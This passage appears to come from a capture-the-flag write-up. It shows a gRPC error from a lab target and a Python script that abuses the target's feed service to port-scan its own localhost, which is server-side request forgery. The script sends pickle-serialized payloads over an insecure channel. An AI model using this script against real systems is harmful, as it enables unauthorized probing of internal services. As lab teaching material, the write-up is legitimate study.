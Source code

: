```
grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
        status = StatusCode.UNKNOWN
        details = "Exception calling application: (1, 'Received HTTP/0.9 when not allowed\n')"
        debug_error_string = "{"created":"@1599775916.735603335","description":"Error received from peer ipv4:10.10.10.201:9000","file":"src/core/lib/surface/call.cc","file_line":1061,"grpc_message":"Exception calling application: (1, 'Received HTTP/0.9 when not allowed\n')","grpc_status":2}"
>

```

Port 80 returned an error of “Failed to connect to localhost port 80: Connection refused”, whereas port 9100 returned an error of “Received HTTP/0.9 when not allowed”. I can work with this.

I’ll re-write the script to try all the ports on localhost and see which respond:

```

#!/usr/bin/env python3

import base64
import grpc
import pickle
import sys
import feedengine_pb2
import feedengine_pb2_grpc

payload = """{{
    "version": "v1.0",
    "title": "Printer Feed",
    "home_page_url": "",
    "feed_url": "http://localhost:{}",
    "items": [
        {{
            "id": "2",
            "content_text": "Queue jobs"
        }},
        {{
            "id": "1",
            "content_text": "Failed items"
        }}
    ]
}}"""

channel = grpc.insecure_channel('10.10.10.201:9000')
stub = feedengine_pb2_grpc.PrintStub(channel)

for port in range(1, 65536):
    print(f'\r{port}', end='', flush=True)
    payload_ser = base64.b64encode(pickle.dumps(payload.format(port)))
    content = feedengine_pb2.Content(data=payload_ser)
    try:
        response = stub.Feed(content)
        print(f'\r[{port:05d}] Open - Resp: {response.feed.strip()}')
    except grpc._channel._InactiveRpcError as ex:
        if not 'Failed to connect to localhost port' in ex.details():
            print(f'\r[{port:05d}] Open - No resp')

print('\rScan Complete')

```
